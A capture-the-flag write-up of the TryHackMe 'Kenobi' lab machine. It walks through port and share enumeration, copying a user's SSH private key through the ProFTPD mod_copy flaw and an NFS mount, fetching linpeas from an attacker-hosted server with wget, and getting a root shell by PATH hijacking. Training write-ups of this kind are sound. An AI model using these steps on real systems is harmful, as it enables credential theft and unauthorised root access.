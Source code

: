 # Kenobi

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

======================

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

<br>

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

<br>

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

<br>

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

<br>

Using the command ```ls``` revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

<br>

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

<br>

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

<br>

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

<br>

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">

Searchsploit gave us 3 possible exploits that could be used.

<br>

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

<br>

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">

<br>

Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">

<br>

After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 <br>

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

<br>

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

<br>

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon running the menu binary, we come across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**

<img style="float: left;" src="screenshots/screenshot10.png">

From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

<br>

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">

<br>

**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**





